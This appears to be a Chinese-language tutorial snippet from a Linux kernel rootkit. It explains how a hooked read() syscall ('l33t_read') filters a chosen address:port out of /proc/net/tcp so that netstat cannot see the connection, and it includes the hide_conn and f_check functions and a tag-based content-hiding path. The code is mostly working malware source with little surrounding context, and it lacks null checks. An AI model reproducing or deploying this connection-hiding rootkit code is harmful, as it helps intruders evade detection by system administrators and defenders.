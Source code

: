 端口隐藏，netstat -nat查看/proc/net/tcp这个文件列出的连接，在read中把连接信息过滤掉

read函数从fd指向的文件中读取count个字节的数据。
函数原型：
#include<unistd.h>
ssize_t read(int fd, void *buf, size_t count); 
参数说明：
   int fd : 文件描述符，指向要读取数据的文件
  void *buf : 用于存放读取的数据的缓存开始地址
  size_t count : 读取到缓冲区的字节数


char *hide_connection = "0101007F:0035";//隐藏的连接，地址：端口号
char *next_connection = "0100007F:0277";

int hide_conn(void *arg, ssize_t size){
//
	char *p[5];
	char *buf, *p1, *p2;
	int i, newret;

	buf = (char *) kmalloc(size, GFP_KERNEL);
	if(!buf) return(-1);

	if(copy_from_user((void *) buf, (void *) arg, size)) {
		kfree(buf);
		return size;
	}

	p1 = strstr(buf, hide_connection);
	p2 = strstr(buf, next_connection);
	int off = p2-p1;

	i = size - (p1 - buf + off);
	memmove((void *) p1, (void *) (p1 + off), i);//将下一个连接地址复制到目标连接的位置，即过滤掉目标连接
	newret = size - off;//新的缓存大小

	if(copy_to_user((void *) arg, (void *) buf, newret)) {
		kfree(buf);
		return size;
	}

	return newret;

//
}


asmlinkage ssize_t l33t_read(unsigned int fd, char __user *buf, size_t count) {
	struct file *f;
	int fput_needed;
	ssize_t ret;
       
	if(hide_file_content) {
		ret = -EBADF;

		atomic_set(&read_on, 1);
		f = e_fget_light(fd, &fput_needed);

		if (f) {
#if LINUX_VERSION_CODE <= KERNEL_VERSION(4, 14, 0)
			ret = vfs_read(f, buf, count, &f->f_pos);
#else
			ret = vfs_read_addr(f, buf, count, &f->f_pos);
#endif			
			if(f_check(buf, ret) == 1) ret = hide_content(buf, ret);

			if(f_check(buf, ret) == 2) ret = hide_conn(buf, ret);//f_check找到目标连接时返回2，过滤掉隐藏信息
	    	
			fput_light(f, fput_needed);
		}
		atomic_set(&read_on, 0);
	} else {
		ret = o_read(fd, buf, count);
	}

	return ret;
}

int f_check(void *arg, ssize_t size) {
	char *buf;

	if ((size <= 0) || (size >= SSIZE_MAX)) return(-1);

	buf = (char *) kmalloc(size+1, GFP_KERNEL);
	if(!buf) return(-1);

	if(copy_from_user((void *) buf, (void *) arg, size)) goto out;

	buf[size] = 0;

	if ((strstr(buf, HIDETAGIN) != NULL) && (strstr(buf, HIDETAGOUT) != NULL)) {
		kfree(buf);
		return(1);
	}
//
	if ((strstr(buf, "local_address") !=NULL) && (strstr(buf, "0101007F")!= NULL)) {		
		kfree(buf);
		return(2);
	}
out:
	kfree(buf);
	return(-1);
}
